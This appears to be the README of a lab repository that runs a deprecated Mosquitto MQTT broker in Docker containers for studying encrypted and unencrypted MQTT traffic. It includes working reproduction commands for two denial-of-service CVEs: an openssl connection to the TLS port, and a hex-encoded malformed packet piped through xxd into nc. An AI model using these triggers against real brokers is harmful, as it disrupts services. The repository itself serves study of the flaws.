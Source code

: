 # MQTT-in-Containers
This virtual environment was created to observe and study MQTT communications, running a deprecated version of the [Mosquitto](https://mosquitto.org/) broker (version 2.0.5). There is a version with encrypted and one without encrypted traffic for you to try. We replicated two DoS attacks, namely CVE-2023-5632 and CVE-2021-34432. Further down we have included some steps on how to replicate these.

Here is a quick rundown of how to use the files in this repo:

1. We recommend you use Linux or WSL for Windows environments.
2. You need to install Docker to run the containers.
3. With "sudo docker compose up" you can start up all containers mentioned in the specific compose file
4. You can then capture the traffic in Wireshark for example, although finding the correct interface is not always easy.
5. The ip adresses for the encrypted setup are static, you can change it in the compose file if needed. 
6. Play around with different settings, creating your own certificates (if you dare), topics etc. 

CVE-2023-5632
Basically all you need is the following command. The ip adress is the adress of your broker
openssl s_client -connect 172.23.0.2:8883

CVE-2021-34432
This sends a packet with length 0
echo 102b00044d5154540500003c0822000a110000000f00166d7174746f6f6c732d383739363736313532303132393d0900000621000a220005e000 | xxd -p -r | nc localhost 1883
